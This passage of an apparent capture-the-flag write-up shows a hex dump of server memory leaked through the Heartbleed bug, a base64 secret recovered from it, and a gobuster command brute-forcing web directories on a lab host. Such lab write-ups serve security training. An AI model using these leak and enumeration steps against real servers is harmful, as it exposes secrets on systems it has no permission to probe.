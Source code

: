 ```none
  00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F  1/decode.php..Co
  00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
  0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
  0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
  0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
  0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
  0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64  nRibGVlZGJlbGlld
  0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D DA  mV0aGVoeXBlCg==.
  0160: 34 03 E0 93 73 68 23 4F 8A 33 10 FD BE A4 8A 35  4...sh#O.3.....5
```

I only ran the script once and seemed to get the information needed. There is some memory leaked to us that shows the `decode.php` filename, and what looks like an HTTP message from the server. There is an interesting `$text` variable with a base64 string.

```none
$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
```

Now that we know PHP is used on the system, I started a `gobuster` scan to run in the background.

```none
gobuster dir -t 20 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 10.10.10.79 -o gobuster_80_root_medium.log -x php
```

Looking at the `decode.php` page, we are presented with an online base64 decoder and encoder (`encode.php`) application. This seems to match the base64 encoded string we got from the Heartbleed exploit.

![80 Home](screenshots/80_decode.png)
